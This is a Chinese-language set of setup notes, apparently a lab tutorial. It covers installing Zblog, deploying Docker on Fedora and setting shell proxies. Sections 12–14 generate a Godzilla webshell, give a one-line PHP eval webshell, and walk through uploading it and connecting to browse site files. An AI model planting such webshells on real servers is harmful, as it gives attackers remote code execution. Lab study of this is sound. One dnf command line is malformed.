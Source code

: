 ```bash
```
### 11.	安装Zblog
浏览器打开```http://ip:port/zblog/```
>输入Zblog php安装程序所需的信息，包括数据库名（先提前创建所需的数据库），数据库端口、用户名和密码，还有后台管理系统用户名和密码，根据提示安装zblog。
### 12.	生成木马
>下载ONE-FOX工具箱，运行哥斯拉v4.0.1  
>在哥斯拉v4.0.1，点击管理>生成 其他默认 有效载荷选择PhpDynamicPayload，加密器选择PHP_EVAL_XOR_BASE64.
### 13.	一句话代码格式 
```php 
<?php @eval($_POST['cmd']); ?>
```
### 14.木马实验
>把php木马保存到你能找到的地方，并将其上传到服务器，在浏览器运行  
点击目标>添加 输入URL，有效载荷选择PhpDynamicPayload， 加密器选择PHP_EVAL_XOR_BASE64.  
点击测试连接，提示Success，然后点击添加  
选中目标，右键进入，可以看到网站文件，但是看不到系统文件。   

Linux下终端全局代理
-
>把代理服务器地址写入shell配置文件```.bashrc```或者```.zshrc```
```bash
export http_proxy="http://localhost:port"  
export https_proxy="http://localhost:port" 
```
在Fedora上部署docker
-
<i>Docker 是一个开源的应用容器引擎，用于开发、部署和运行应用程序，它基于 Go 语言 并遵从 Apache2.0 协议开源，它通过容器化技术，将应用程序及其依赖项打包在一个轻量级、可移植的容器中，使应用能在不同环境中一致运行。

Docker 可以让开发者打包他们的应用以及依赖包到一个轻量级、可移植的容器中，然后发布到任何流行的 Linux 机器上，也可以实现虚拟化。

容器是完全使用沙箱机制，相互之间不会有任何接口,更重要的是容器性能开销极低。</i>
### 1.	在你的Rocky Linux上添加docker存储库
```bash 
sudo dnf -y install dnf-plugins-core，sudo dnf-3 config-manager --add-repo https://download.docker.com/linux/fedora/docker-ce.repo
```
### 2.	安装docker所需的软件包
```bash 
sudo dnf -y install docker-ce docker-ce-cli containerd.io docker-compose-plugin
```
### 3.	启动docker服务
```bash
sudo systemctl --now enable docker
```
### 4.	配置代理 <i>docker在国内需要魔法</i>
>查找``` docker.service ```文件的位置
```bash
systemctl status docker
```
>输出中的``` Loaded ```行会显示``` docker.service ```的路径，例如：
```
Loaded: loaded (/lib/systemd/system/docker.service; enabled; vendor preset: enabled)
```
>编辑``` docker.service ```文件，在``` [Service] ```部分添加代理环境变量：
```bash
sudo vim /lib/systemd/system/docker.service
```
>在``` [Service] ```部分添加如下内容：
```bash
[Service]
Environment="HTTP_PROXY=http://127.0.0.1:7890/"
```